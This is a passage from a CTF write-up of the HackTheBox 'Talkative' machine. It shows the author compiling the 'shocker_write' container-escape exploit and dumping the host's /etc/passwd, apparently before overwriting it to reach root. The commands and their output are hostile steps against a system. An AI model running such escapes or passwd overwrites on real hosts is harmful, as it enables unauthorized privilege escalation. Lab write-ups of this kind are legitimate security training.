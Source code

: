 ![](https://github.com/siunam321/CTF-Writeups/blob/main/HackTheBox/Talkative/images/Pasted%20image%2020230812194158.png)

**Statically compile the `shocker_write` exploit:** 
```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Talkative)-[2023.08.12|19:42:05(HKT)]
└> nano shocker_write.c
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Talkative)-[2023.08.12|19:42:18(HKT)]
└> gcc -Wall -std=c99 -O2 shocker_write.c -static -o shocker_write_static
[...]
```

**Copy the original `/etc/passwd` on the host machine to a file:**
```shell
saul@talkative:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
```